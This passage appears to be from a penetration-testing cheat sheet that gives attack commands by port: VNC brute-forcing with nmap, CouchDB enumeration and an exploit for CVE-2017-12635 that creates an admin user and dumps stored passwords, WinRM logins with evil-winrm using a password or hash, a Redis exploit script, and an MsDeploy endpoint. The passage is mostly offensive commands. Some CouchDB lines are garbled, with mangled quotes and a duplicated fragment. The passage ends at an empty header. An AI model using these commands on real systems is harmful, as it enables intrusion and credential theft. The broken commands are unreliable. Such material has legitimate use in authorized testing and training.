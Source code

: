 ## Port 5900 - VNC

```bash
nmap --script=vnc-info,vnc-brute,vnc-title -p 5900 10.11.1.111
```

## Port 5984 - CouchDB

```bash
curl http://example.com:5984/
curl -X GET http://IP:5984/_all_dbs
curl -X GET http://user:password@IP:5984/_all_dbs

# CVE-2017-12635 RCE

# Create user
curl -X PUT ‘http://localhost:5984/_users/org.couchdb.user:chenny' — data-binary ‘{ “type”: “user”, “name”: “chenny”, “roles”: [“_admin”], “roles”: [], “password”: “password” }’

# Dump database
curl http://127.0.0.1:5984/passwords/_all_docs?include_docs=true -u chenny:-Xpassword <ds/_all_docs?include_docs=true -u chenny:-Xpassword

# Dump passwords
curl -X GET http://user:passwords@localhost:5984/passwords
```

## Port 5985 - WinRM

```bash
# https://github.com/Hackplayers/evil-winrm
gem install evil-winrm
evil-winrm -i 10.11.1.111 -u Administrator -p 'password1'
evil-winrm -i 10.11.1.111 -u Administrator -H 'hash-pass' -s /scripts/folder
```

## Port 6379 - Redis

```bash
# https://github.com/Avinash-acid/Redis-Server-Exploit
python redis.py 10.10.10.160 redis
```

## Port 8172 - MsDeploy

```bash
# Microsoft IIS Deploy port
IP:8172/msdeploy.axd
```

## Port 5601/9200
